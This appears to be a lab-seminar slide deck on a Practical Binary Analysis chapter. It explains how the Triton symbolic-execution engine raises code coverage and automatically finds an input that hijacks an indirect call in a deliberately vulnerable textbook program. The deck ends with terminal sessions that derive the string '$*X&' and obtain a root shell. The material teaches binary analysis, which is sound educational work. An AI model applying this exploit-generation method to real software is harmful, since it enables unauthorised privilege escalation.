

# Practical Binary Analysis #13.4~

## Seminar @ Gondow Lab.

<!--
class: title
-->

---

<!--
class: slides
_footer: ''
paginate: true
-->

# Overview

1. Increase Code Coverage
   - `main` function
   - `find_new_input` function
2. Automatically exploit vulnerability

---

# Source Code

- https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O

---

# Code Coverage - Example

```c
void branch(int x, int y) {
  if(x < 5) {
    if(y == 10) printf("x < 5 && y == 10\n");  // branch1
    else        printf("x < 5 && y != 10\n");
  } else {
    printf("x >= 5\n");
  }
}
```

- input : x=1, y=10
  - branch1 : `taken`

If you want to make branch1 `not taken`...

- input : x=1, y=9
  - branch1 : `not taken`

---

# Code Coverage - `main` (1/4)

```c
int main(int argc, char *argv[]) {
  ...
  // optional arguments to pass to parse_sym_config
  std::vector<triton::arch::registers_e> symregs;
  std::vector<uint64_t> symmem;
  ...
  if(argc < 5) {
    printf("Usage: %s <binary> <sym-config> <entry> <branch-addr>\n", argv[0]);
    return 1;
  }
  ...
}
```

- `binary` : path to binary to analyze
- `sym-config` : path to config file
- `entry` : address at which execution(emulation) starts
- `branch-addr` : target branch address

---

# Code Coverage - `main`(2/4)

```c
int main(int argc, char *argv[]) {
  ...
  if(parse_sym_config(argv[2], &regs, &mem, &symregs, &symmem) < 0) return 1;
  ...
}
```

- Difference between this and previous example
  - Create Symbolic Variable
    - Symbolize all memory locatinos and regisnters that contain user input.
    - `parse_sym_config` writes to `symregs`/`symmem` where/which to symbolize.

---

# Code Coverage - `main`(3/4)

```c
int main(int argc, char *argv[]) {
  ...
  for(auto regid: symregs) {  // Symbolize Registers
    triton::arch::Register r = api.getRegister(regid);
    api.convertRegisterToSymbolicVariable(r)->setComment(r.getName());
  }
  ...
  for(auto memaddr: symmem) {  // Symbolize Memory
    api.convertMemoryToSymbolicVariable(
      triton::arch::MemoryAccess(memaddr, 1)
    )->setComment(std::to_string(memaddr));
  }
  ...
}
```

- Symbolize memory locatinos and registers

---

# Code Coverage - `main`(4/4)

```c
int main(int argc, char *argv[]) {
  ...
    if(pc == branch_addr) {  // find new user input to reach not explorered path.
      find_new_input(api, sec, branch_addr);
      break;
    }
  ...
}
```

- Call `find_new_input`, which is explained later.

---

# Code Coverage - `find_new_input`(1/3)

- Branch Constraints
  - (flag, src, dst, AST)
    - flag : whether this constraint was used (!= taken)
    - src/dst : source/destination address
    - AST : AST encoding the branch constraint



---

# Code Coverage - `find_new_input`(2/3)

```cpp
static void
find_new_input(triton::API &api, Section *sec, uint64_t branch_addr) {
  ...
  for(auto &pc: path_constraints) {  // for all path constraints
    if(!pc.isMultipleBranches()) continue;  // ex. call
    for(auto &branch_constraint: pc.getBranchConstraints()) {
      ...
      if(src_addr != branch_addr) {  // if src is not the one we wanna flip
        if(flag) {  // `flag` is True if `constraint` was used.
          constraint_list = ast.land(constraint_list, constraint);
        }
      } else {
        ...
}}}}
```

- Add constraint which is used,
  - if the branch we're looking is not the target branch.

---

# Code Coverage - `find_new_input`(3/3)

```cpp
static void
find_new_input(triton::API &api, Section *sec, uint64_t branch_addr) {
  ...
  for(auto &pc: path_constraints) {  // for all path constraints
    for(auto &branch_constraint: pc.getBranchConstraints()) {
      ...
      else {
        if(!flag) {  // `flag` is False if `constraint` was not used.
          constraint_list = ast.land(constraint_list, constraint);
          for(auto &kv: api.getModel(constraint_list)) {  // invoke Z3
            printf("SymVar %u (%s) = 0x%jx\n",
              kv.first,
              api.getSymbolicVariableFromId(kv.first)->getComment().c_str(),
              (uint64_t)kv.second.getValue());
}}}}}}
```

- Add constraint which is not used,
  - if the branch we're looking is the target branch.

---

# Code Coverage - test program

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#branchc
- `x` and `y` are the user inputs.
  - We shall symbolize these variables to get concrete values from `Z3`.
- We want to analyze `if (y == 10)...` branch.

### Info from disassembly(, which we won't see here)

- `x` and `y` is contained in `rdi` and `rsi`, respectively.
- Start of `branch` function is at `0x4005b6`
- Target branch is at `0x4005ce`

---

# Code Coverage - config file

We can symbolize registers as below.

```
%rdi=$
%rdi=0
%rsi=$
%rsi=0
```

- We also provide concrete value(`x`=0, `y`=0)
  - from which `code_coverage.cc` generate another concrete value to cover another path.

---

# Code Coverage - Generating New Input(1/2)

As we can see the code below, arguments to pass to `code_coverage` is...

1. `binary` : path to binary file, in this case, `branch`
2. `sym-config` : path to config file, in this case, `branch.map`
3. `entry` : entry point, in this case, `0x4005b6`
4. `branch-addr` : target branch address, in this case, `0x4005ce`

```cpp
  if(argc < 5) {
    printf("Usage: %s <binary> <sym-config> <entry> <branch-addr>\n", argv[0]);
    return 1;
  }
```

---

# Code Coverage - Generating New Input(2/2)

Results

```
$ ./code_coverage branch branch.map 0x4005b6 0x4005ce
evaluationg branch 0x4005ce:
    0x4005ce -> 0x4005dc (taken)
    0x4005ce -> 0x4005d0 (not taken)
    computing new input for 0x4005ce -> 0x4005d0
      SymVar 0 (rdi) = 0x0
      SymVar 1 (rsi) = 0xa
```

Initial inputs

```
$ ./branch 0 0
x < 5 && y != 10
```

New inputs

```
$ ./branch 0 0xa
x < 5 && y == 10  # new path!!
```

---

# Overview

1. Increase Code Coverage
   - `main` function
   - `find_new_input` function
2. Automatically exploit vulnerability

---

# Exploiting a Vulnerability

- Automatically generate inputs that exploit vulnerability,
  - hijacking an indirect call site
  - redirecting to an arbitary address

### Assumption

- We already know there is a vulnerability,
  - but don't know how to exploit.

### Workflow

1. Randomly Generated Inputs + Taint Analysis
2. Symbol Execution to find new inputs that exploit vulnerability.

---

# Exploiting a Vulnerability - The Vulnerable Program

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#The-vulernable-program

### Goal

- To jump to the admin area **_without_** knowing password.

### Vulnerability

- No verification of `index`,
  - so you can use data **_outside_** the `ical.functions` as a indirect call target.

---

# Exploiting a Vulnerability - The Vulnerable Program

### Normal Execution

```sh
$ ./icall 1 foo
Calling 0x400974
reverse: 22295079
```

### Anormal Execution

```sh
$ ./icall 1 foo
Calling 0x22295079  # hash, little endian
Segmentation fault (core dumped)
```

### that is...

- We can use `hash` as a target of indirect call. (`hash` if hashed from `string`)
- The challenge is:
  - to find a `string` which is hashed into the address of secret admin area.

---

# Exploiting a Vulnerability - The Vulnerable Program

### Question : How we can exploit this vulnerability?

---

# Exploiting a Vulnerability - The Vulnerable Program

### Solution

1. Brute Force
2. Reverse Engineering
3. Symbex <-- !!!

---

# Exploiting a Vulnerability - Key Point

There're two key information:

1. The address of vulernable indirect call site
2. The address to which you want to redirect

---

# Exploiting a Vulnerability - Key Point

There're two key information:

1. The address of vulernable indirect call site : `0x400bef`
2. The address to which you want to redirect : `0x400b3b`

Because disassembly/DTA is not our purpose, we won't see here.
(You may want to check the Book.)

---

# Exploiting a Vulnerability - How to execute

### Question (Review)

- Symbolic Execution : <hide>doesn't realy run a program but rather emualte it.</hide>
- Concolic Execution : <hide>does run a program and track symbolic state as metadata.</hide>

---

# Exploiting a Vulnerability - How to execute

### Question (Review)

- Symbolic Execution : doesn't realy run a program but rather emualte it.
- Concolic Execution : does run a program and track symbolic state as metadata.

### Symbolic Execution vs Concolic Execution

We use **Concolic Execution** here because:

1. generating the exploit requires tracing the symbolic state through a whole program

   - which is slow in Symbolic Execution

2. it is easy to experiment multiple inputs

---

# Exploiting a Vulnerability - `main`

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#main1
- All user inputs(command line arguments) will be:
  - converted into symbolic variables
  - set as concrete state in Triton's context

---

# Exploiting a Vulnerability - `symbolize_inputs`

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#functions
- All user inputs(command line arguments) will be:
  - converted into symbolic variables
  - set as concrete state in Triton's context

---

# Exploiting a Vulnerability - `hook_ical`

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#functions
- Call `exploit_icall` if:
  - instruction : control flow instruction
  - addr of instruction : tainted call site
  - operand : register

---

# Exploiting a Vulnerability - `exploit_icall`

- See https://hackmd.io/@C5FCqN8cSSO75WvPfrj9aw/SJurj-Q2O#functions
- 2 goals(constraints):
  - register (of `call`) : `target`(start of admin area)
  - register value : printable ASCII character

---

# Exploiting a Vulnerability - `getting a root shell`

```sh
$ cd ~/triton/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build
$ ./triton ~/code/chapter13/exploit_callsite.py \
           ~/code/chapter13/icall 2 AAA
Symbolized argument 2: AAA
Symbolized argument 1: 2
Calling 0x223c625e
Found tainted indirect call site '0x400bef: call rax'
Getting model for 0x400bef: call rax -> 0x400b3b
# no model found
```

1. Move to the directory which contains `triton`.
2. Start `triton` script.
   - Start `icall` in `Pin` using `exploit_callsite.py` as a Pin tool.
   - `AAA` is arbitary string which is needed to drive program.
3. No model was found which mean no 3-length string was fond.
   - Recall that each inputs is symbolized in byte granularity.

---

# Exploiting a Vulnerability - getting a root shell

Try input strings of length 1,2,...,100.

```sh
for i in $(seq 1 100); do
  str`python -c "print 'A'*"${i}`  # str = "A" * i
  echo "Trying input len ${i}"
  ./triton ~/code/chapter13/exploit_callsite.py \
         ~/code/chapter13/icall 2 ${str} \
  | grep -a SymVar
done
```

---

# Exploiting a Vulnerability - getting a root shell

Result is...

```shell
...
Trying input len 4
SymVar_0 = 0x24 (argv[2][0])  # $
SymVar_1 = 0x2A (argv[2][1])  # *
SymVar_2 = 0x58 (argv[2][2])  # X
SymVar_3 = 0x26 (argv[2][3])  # &
SymVar_4 = 0x40 (argv[2][4])  # last should be terminating NULL of the input
SymVar_5 = 0x20 (argv[1][0])  # 2
SymVar_6 = 0x40 (argv[1][1])  # last should be terminating NULL of the input
...
```

- Exploit string is `$*X&`.

---

# Exploiting a Vulnerability - getting a root shell

Get the root.

```sh
$ cd ~/code/chapter13
$ ./icall 2 '$*X&'
Calling 0x400b3b  # start of admin area
# whoami
root
```
